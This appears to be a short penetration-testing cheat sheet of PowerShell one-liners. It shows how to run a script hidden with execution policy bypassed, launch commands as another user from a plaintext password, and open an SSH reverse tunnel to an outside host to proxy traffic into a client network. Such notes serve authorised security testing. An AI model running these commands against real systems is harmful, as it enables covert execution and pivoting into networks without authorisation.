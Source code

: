 ### Start and creates a new process (detached)
```
Start-Process -wi 1 -FilePath "cmd" -ArgumentList "/c type <powershellScript> | powershell -WindowStyle Hidden -exec bypass"
```

### Start process as another user (-wi 1 to minimize window pop up)
```
$scp = ConvertTo-SecureString '<password>' -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $scp); start-process -wi 1 -FilePath "cmd.exe" -ArgumentList "/c <command>" -Credential $cred
```

### Forward proxychains traffic into client network
```
Start-Process -wi 1 -FilePath "powershell" -ArgumentList " -c ssh -o 'StrictHostKeyChecking=no' -i $HOME\.ssh\<privateKey> -N -R 9050 <user>@<rhost>"
```

### Stop process by name
```
Stop-Process -Name "<name>"
```


